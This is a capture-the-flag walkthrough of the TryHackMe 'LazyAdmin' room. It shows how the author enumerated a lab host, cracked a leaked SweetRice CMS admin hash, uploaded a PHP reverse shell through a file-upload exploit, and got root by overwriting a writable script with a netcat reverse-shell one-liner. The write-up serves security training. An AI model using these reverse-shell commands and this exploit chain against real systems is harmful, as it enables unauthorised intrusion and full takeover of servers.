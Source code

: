 # LazyAdmin

![An image of Lazy Admin THM room](https://i.imgur.com/3B6uSkg.jpg)

[Play](https://tryhackme.com/room/lazyadmin)

## 1. Enumeration + Exploration

### 1.1. Port Scanning
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -A 10.10.249.26
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-24 02:40 EDT
Nmap scan report for 10.10.249.26
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.08 seconds
```

Noting too out of the blue here. Let's go to the gobsuter scans for Web Enumeration.

### 1.2. Web Enumeration
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.249.26 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
/content              (Status: 301) [Size: 314] [--> http://10.10.249.26/content/]

```

Ah. Going to that page, we see the below.

![Content page, SweetRice CMS](https://i.imgur.com/Y3JQljF.png)

Let's enumerate the `/content/` directory in parallel.

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.249.26/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q

/images               (Status: 301) [Size: 321] [--> http://10.10.249.26/content/images/]
/js                   (Status: 301) [Size: 317] [--> http://10.10.249.26/content/js/]    
/inc                  (Status: 301) [Size: 318] [--> http://10.10.249.26/content/inc/]   
/as                   (Status: 301) [Size: 317] [--> http://10.10.249.26/content/as/]    
/_themes              (Status: 301) [Size: 322] [--> http://10.10.249.26/content/_themes/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.249.26/content/attachment/]
```

This gives us a lot to explore. 

### 1.3. Web Exploration
We see the version of the sowftware being used.

![SweetRice CMS version](https://i.imgur.com/tI4jMIH.png)

We also see some backup files as below.

![MySQL backup directory](https://i.imgur.com/H8DcAho.png)

```
┌──(kali㉿kali)-[/tmp]
└─$ cat mysql_bakup_20191129023059-1.5.1.sql 
<?php return array (
  0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
  1 => 'CREATE TABLE `%--%_attachment` (

{some more info}

) ENGINE=MyISAM AUTO_INCREMENT=4 DEFAULT CHARSET=utf8;',
  14 => 'INSERT INTO `%--%_options` VALUES( {...} "admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44c****\\
  
  {some more information here}
  
  KEY `date` (`date`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
);?>   
```
### 1.4. Hash Cracking
We get the hash, and we can now use an online tool like CrackStation 

![Hash cracking using CrackStation](https://i.imgur.com/PR00S0g.png)

`42f749ade7f9e195bf475f37a44****: ***********`

And voila! We have the creds. The username is also mentioned closely ;)

Now what?

### 1.5. More Web Exploration
There's one link that we missed out on before.

Let's go to: `/content/as/`

![Login page for admin](https://i.imgur.com/KhaWHVq.png)

Using the credentials as found before, we are in!


### 1.6. Admin Page
![Admin page of SweetRice](https://i.imgur.com/QDWO8I3.png)

![Details and Settings of SweetRice](https://i.imgur.com/ebre2uF.png)

I also found more credentials lying around. These may become important later on.

![Important Database Credentials](https://i.imgur.com/fR3h7hE.png)


Since we have the version and the credentials in hand, I found one epxloit which looks pretty tasty.

[SweetRice 1.5.1 - Arbitrary File Upload](https://www.exploit-db.com/exploits/40716)

Now, we attempt the foothold.

## 2. Foothold

We enter the initial creds found, which we used for logging in.

Also, use [RevShells](https://revshells.com/) to get the `PHP PentestMonkey` shell. 

![SweetRice Exploit](https://i.imgur.com/F0Jryka.png)

NOTE: `.php` did not work. It does not show in the uploads. Renaming it to `.php5` worked.

Also, start up netcat on the selected port, and go to the url given.

![SweetRice Exploit Working](https://i.imgur.com/VIJcmtD.png)


![Getting a shell with the exploit](https://i.imgur.com/SUECOzF.png)

\*in deep hacker voice\* I am in!

## 3. PrivEsc

We so a bit of exploration and we get some more creds. These are the same as what we saw before.
```
www-data@THM-Chal:/home/itguy$ cat mysql_login.txt
cat mysql_login.txt
rice:**********
```

Check sudo permissions.

```
www-data@THM-Chal:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```

Okay backup scripts are usually interesting. Let's see.

```
www-data@THM-Chal:/$ cat /home/itguy/backup.pl
cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

What about the permissions?

```
www-data@THM-Chal:/home/itguy$ ls -la | grep backup
ls -la | grep backup
-rw-r--r-x  1 root  root    47 Nov 29  2019 backup.pl
```

We can't edit it. It runs another script named `/etc/copy.sh`. Let's check that out.

```
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

OOF looks like a reverse shell. Can we edit it though?

```
www-data@THM-Chal:/home/itguy$ ls -la /etc/copy.sh
ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

Uh ... its owned by root.

All hope lost? Well, check the permissions XD

Using [RevShells](https://www.revshells.com/), we ge the command,

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.8.184 1337 >/tmp/f`

I tried using nano, but it did not work. No vim either. So, we do `echo` :P

`www-data@THM-Chal:/etc$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.8.184 1234 >/tmp/f" > copy.sh`

Execute it as,

`www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl`

While having a listener setup using netcat. Remember: It needs to be on another port - because we are already using one we connected to before.

![Getting the reverse shell with root permissions](https://i.imgur.com/NnasIBg.png)

And ... we are done!